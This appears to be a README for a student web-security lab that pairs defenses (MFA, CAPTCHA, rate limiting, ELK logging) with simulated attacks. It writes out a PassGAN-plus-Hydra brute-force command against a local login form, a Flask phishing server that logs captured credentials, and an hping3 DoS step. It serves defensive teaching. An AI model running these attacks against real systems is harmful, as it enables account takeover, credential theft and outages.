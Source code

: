 # 📁 Directory Overview

- `web_defense_project/`  
  Project folder for web, including MFA, CAPTCHA, and rate limiting.
  
- `elk/`  
  ELK stack configurations for logging, intrusion detection, and visualization using Elasticsearch, Logstash, and Kibana.
  
- `Bruteforce/`  
  A folder containing brute-force attack simulation scripts.

- `phingattack/`  
  A directory related to phishing attacks.

- `hping3_dos.sh`  
  Shell script for launching DoS attacks using `hping3`.

# 🛠️ How to Run

## Brute Force Attack(`Bruteforce/`)

Using Kali Linux to run the brute force attack:

### Step 1: Generate Passwords with PassGAN

Use the pre-trained PassGAN model to generate realistic password guesses:

```bash
python sample.py \
  --input-dir pretrained \
  --checkpoint pretrained/checkpoints/195000.ckpt \
  --output ai_pass_1k.txt \
  --num-samples 1000
```

### Step 2: Test Passwords Using Hydra 
```bash
hydra -l Group18 -P /home/kali/PassGAN/ai_pass.txt 127.0.0.1 http-post-form '/login:account=^USER^&password=^PASS^:Invalid Credentials!' -s 5000 -t 4
```

## Phishing Attack(`phingattack/`)

### Step 1: Start the Phishing Server

Run the following command in your terminal to launch the phishing server:

```bash
python phishing.py
```
The phishing server is built using Flask and listens on port 8888.

### Step 2: Visit the Phishing Page (Victim's Perspective)
Accessible at: http://localhost:8888

### Step 3: View Captured Credentials
After a victim submits credentials, they are saved to local log files. You can inspect the captured data using:
```bash
cat captured_logins.txt
cat captured_registrations.txt
```
##  DDoS Attack(`phingattack/`)
Using Kali Linux to run and monitor the DDoS attack:
### Step 1: Run Wireshark
Select eth0 interface and add the filter condition of ip.dst==destination address in the filter.
### Step 2: Run hping3_ddos.sh 
change the destination address to the ip address to be attacked.
```bash
hping3 hping3_dos.sh
```
